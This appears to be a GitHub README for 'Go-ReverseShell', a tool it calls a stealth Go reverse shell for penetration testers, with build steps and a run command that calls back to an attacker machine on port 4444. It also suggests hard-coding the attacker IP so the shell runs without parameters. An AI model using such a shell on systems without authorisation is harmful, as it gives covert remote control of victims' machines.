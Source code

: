 # Go-ReverseShell

[![Build Status](https://travis-ci.com/lismore/go-reverseshell.svg?branch=master)](https://travis-ci.com/lismore/go-reverseshell)

This is a stealth GO implementation of a reverse shell.  Penetration Testers can use this reverse shell for stealth engagements.

  - Enables penetration tester to execture commands on target of evaluation

# New Features!

  - Initial Proof of Concept

### Tech

Go-ReverseShell is implemented in GO programming language

### Installation

### Step 1: Build

From the root directory open a terminal and type the following command to generate your own binary

``` shell
go build go-reverseshell.go YouExeName.exe 
```
or
```
go build go-reverseshell.go
```
This builds an exe of the same name.

### Step 2: Run
From command prompt/powershell/terminal execute the following binary to call back to your attacker machine
``` CMD
.\go-reverseshell.exe -targetIP="127.0.0.1" -targetPort=4444
```

if you want to execute the reverse shell without parameters, hard code the attackerIP and port and rebuild: go build go-reverseshell.go

### Development

Want to contribute? Great!

Fork, submit a pull request

License
----

MIT

